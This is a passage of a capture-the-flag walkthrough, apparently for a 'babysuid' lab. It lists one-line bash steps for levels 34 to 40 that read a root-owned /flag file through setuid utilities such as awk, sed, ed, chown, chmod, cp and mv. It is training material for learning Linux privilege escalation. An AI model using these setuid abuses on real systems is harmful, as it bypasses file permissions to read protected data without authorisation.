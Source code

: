 Steps:

```bash
awk '{print}' /flag
```

## Level 35

Steps:

```bash
sed -n '1p' /flag
```

## Level 36

Steps:

```bash
echo l | ed /flag
```

## Level 37

Steps:

```bash
chown $(whoami) /flag
cat /flag
```

## Level 38

Steps:

```bash
chmod +r /flag
cat /flag
```

## Level 39

Steps:

```bash
cp /flag /dev/stdout
```

## Level 40

Steps:

```bash
/challenge/babysuid_level40
mv /flag /bin/mv
/challenge/babysuid_level40
cat /bin/mv
```
